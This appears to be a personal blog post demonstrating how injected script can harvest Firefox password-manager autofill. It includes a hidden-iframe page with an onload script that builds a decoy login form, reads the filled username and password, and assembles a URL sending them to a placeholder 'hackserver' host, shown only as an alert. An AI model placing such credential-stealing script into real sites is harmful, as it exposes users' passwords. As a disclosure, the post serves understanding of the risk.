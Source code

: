 ```yaml
---
layout: post
title: Demonstrating Password Manager Almost Vulnerability in FireFox
tags:
- javascript
- security
---
```

The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

First off, we have legitimate site here with its login form:

**`index.php`**
```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
  Username: <input type="text" name="username"></input><br></br>
  Password: <input type="password" name="password"></input><br></br>
  <input type="submit"></input>
</form>
```

And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**`login.php`**
```php?start_inline=1
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```

and my logged in page.

**`loggedin.php`**
```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**`hack.php`**
```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```

In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

```html
<html>
  <body onload="stealit()">
    <form action="login.php" name="login" method="post">
      Username: <input type="text" name="username"></input><br></br>
      Password: <input type="password" name="password"></input><br></br>
    </form>
    <script>
      function stealit()
      {
        var username=document.login.username.value;
        var password=document.login.password.value;
        
         alert(
           "I am gonna do this:  self.location.href='http://hackserver.php?username=" 
           + username + "&amp;password=" + password + "'"
         );
      }
    </script>
  </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
